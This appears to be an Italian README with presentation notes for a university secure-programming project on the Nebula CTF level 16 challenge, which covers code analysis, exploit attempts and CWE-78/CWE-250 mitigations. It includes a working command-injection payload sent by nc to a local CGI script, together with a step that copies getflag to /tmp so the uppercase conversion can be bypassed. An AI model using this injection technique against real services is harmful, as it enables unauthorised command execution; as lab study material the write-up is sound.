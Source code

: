 # Progetto-Programmazione-Sicura-Nebula-16-
CTF NEBULA 16



Schema della presentazione consiglio vivamente di visionare la presentazione

Intro gruppo- sfida -


analisi cosa fa - cosa abbiamo - cartelle del sistema che vediamo - permessi che possiamo avere

. analisi dei file



3) analisi codice sorgente cioè cosa fa


4) costruzione dell'albero a passi - tentativi numerati - analisi dei tentativi e perchè fallito

	


	PAssi 


	- permessi
	- codice
	- file db
	-------
	- input casuale
	-level16-----

	------
	-;bin/getflag   //a causa della conversione in maiuscolo non si può eseguire.

	grep parametro tr, 
	grep command | tr A-a noooo
	
	- tmp / GETFLAG   cp /bin/getflag /tmp/GETFLAG
	chmod +x GETFLAG
	ls -la

	nc localhost 1616
	get /index.cgi?username="%3B%2F%2A%2FGETFLAG"&

	? eseguire con privilegi
	
	LINK

	https://decepticode.wordpress.com/2016/05/04/nebula-level16/

	https://secinject.wordpress.com/2016/04/15/nebula-level16/




5) ricerca delle cve e mitigazioni possibili
	- caratteri di escape


6) carattere ^ match tutto


6) altre possibili attacchi cve e cwe. 

CWE di riferimento: CWE-250 Execution with Unnecessary Privileges https://cwe.mitre.org/data/definitions/250.html 
CWE di riferimento: CWE-78 Improper Neutralization of Special Elements used in an OS Command (’OS Command Injection') https://cwe.mitre.org/data/definitions/78.html 
